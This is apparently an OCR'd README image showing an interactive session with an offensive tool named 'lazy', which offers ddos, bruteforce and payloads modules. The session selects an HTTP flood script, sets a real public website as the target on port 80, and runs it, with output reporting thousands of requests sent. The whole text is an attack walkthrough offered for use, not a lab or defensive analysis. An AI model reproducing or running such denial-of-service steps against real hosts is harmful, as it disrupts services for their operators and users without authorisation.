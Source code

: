 # (print available modules)>>
lazy# modules

[1]     ddos

[2]     bruteforce

[3]     payloads

# (select module to use [by number])>>
lazy# use 1

# (print available scripts for the modules)>>
lazy/ddos# scripts

[+]flood/http

[+]flood/tcp

[+]flood/udp

# (select script to use)>>
lazy/ddos# set_script flood/http

# (print options for selected script)>>
lazy/ddos/flood/http# options

Options:

host .... target to attack

port .... port to target

# (defining the values for options) {

lazy/ddos/flood/http# set host = google.com

lazy/ddos/flood/http# set port = 80

# (info)>>
lazy/ddos/flood/http# info

ddos/flood/http:
[+] host = google.com

[+] port = 80

# (starting the script)>>
lazy/ddos/flood/http# run

[+] Sending request 15300 to google.com:80^C

lazy/ddos/flood/http# back

lazy#
